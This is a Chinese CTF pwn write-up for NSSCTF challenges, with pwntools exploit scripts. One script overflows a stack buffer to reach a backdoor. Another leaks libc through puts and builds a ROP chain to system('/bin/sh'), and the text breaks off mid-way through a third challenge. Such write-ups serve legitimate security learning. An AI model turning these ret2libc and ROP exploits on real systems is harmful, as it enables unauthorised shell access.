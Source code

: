 # Hello_world
签到题，利用栈溢出漏洞劫持返回函数至backdoors即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28485
if local:
	p = process('./Hello_world')
	pwnlib.gdb.attach(p, 'b func1')
else:
	p = remote(ip, port)
	# p = websocket()

payload = b'a' * (0x20 + 8) + b'\xc5'
p.send(payload)
p.interactive()
```
# ret2libc1
菜单题，可以找到栈溢出漏洞在shop函数里
![[Pasted image 20250302221923.png]]
main函数中可以找到当输入7时会执行see_it函数，可以刷钱，刷了钱后便可以买下商店触发栈溢出漏洞。
![[Pasted image 20250302222124.png]]
利用该漏洞可以泄漏libc基址构造rop。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28561
if local:
	p = process('./attachment')
	pwnlib.gdb.attach(p, 'b ')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./attachment')
libc = ELF('./libc.so.6')

ret = 0x400579
pop_rdi = 0x400d73

p.recvuntil(b'6.check youer money\n')
p.sendline(b'7')
p.recvuntil(b'exchange?')
p.sendline(b'1000')
p.recvuntil(b'6.check youer money\n')
p.sendline(b'5')
p.recvuntil(b'name it!!!\n')

payload = b'a' * (0x40 + 8)
payload += p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400b1e)

p.sendline(payload)

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('puts_addr: ' + hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload = b'a' * (0x40 + 8)
payload += p64(ret) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr)
p.recvuntil(b'name it!!!\n')
p.sendline(payload)

p.interactive()
```

# ret2libc2
one_gadget类型的题目。
需要先想办法泄漏libc基址，因为不能直接控制pop rdi; ret 需要找别的方法。
![[Pasted image 20250302222628.png]]
能想到的方法就是利用printf函数将函数的got泄漏出来
![[Pasted image 20250302222757.png]]
从汇编可以看出这里将rbp - 0x10赋给rax，所以在第一次read时将某一函数的got + 0x10放在此处即可，如下图
